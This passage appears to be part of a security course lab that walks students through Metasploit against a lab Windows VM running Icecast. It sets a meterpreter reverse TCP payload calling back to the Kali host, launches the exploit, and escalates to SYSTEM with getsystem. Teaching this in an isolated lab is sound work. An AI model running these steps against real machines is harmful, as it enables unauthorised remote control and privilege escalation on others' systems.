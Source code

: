         set payload windows/meterpreter/reverse_tcp

    Meterpreter is a shell, like Bash, except evil. It is malware. This specific payload will open a reverse TCP connection from the exploited Windows VM back to the Kali VM, punching through most external-facing firewalls.
    This is why it is important that you are able to reach Kali from Windows, and Windows from Kali.

12.	Type `show options` again to see the options that are required for this payload.

13.	To set the local host variable, type

        set lhost <IP address of the Kali machine>

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can easily check your IP in Unix/Linux by typing <code>ifconfig</code> or <code>ip</code> from within Metasploit.</div>

    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='label label-danger'><i class='fa fa-rocket'></i> launch the exploit!</span>. Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the “meterpreter >” prompt. If you see this, then <i class='fa fa-birthday-cake'></i> congratulations! You’ve exploited your first remote host.

16. Laugh maniacally.

    {% if site.instructorcollab_username == 'jdarcy' %}
    <div class='alert alert-info'><strong>Introspective question:</strong> How did it feel to laugh maniacally? Do you comprehend the potency of your newfound power? Did anyone overhear
    you laughing maniacally?</div>

    <div class='alert alert-danger'><strong><i class='fa fa-lg fa-info-circle'></i></strong> Never forget that you are a script kiddie.</div>
    {% endif %}


## Explore meterpreter

Now, let's explore meterpreter and our newfound power. Run a few commands to give an idea of the power of the meterpreter interface.

29.	To see all possible Meterpreter commands, type `help`.

17. Type `sysinfo` to see information about the compromised system.

17. Type `getuid` to see the system user you now control.


## `getsystem`

18. Because Icecast was "run as administrator", we can easily become SYSTEM -- the Windows equivalent of "root". Escalate your privileges by typing `getsystem`. Type `getuid` again. You should see that you have “NT AUTHORITY\SYSTEM,” which means you administrator privileges.

19. Now that you are SYSTEM, laugh again.
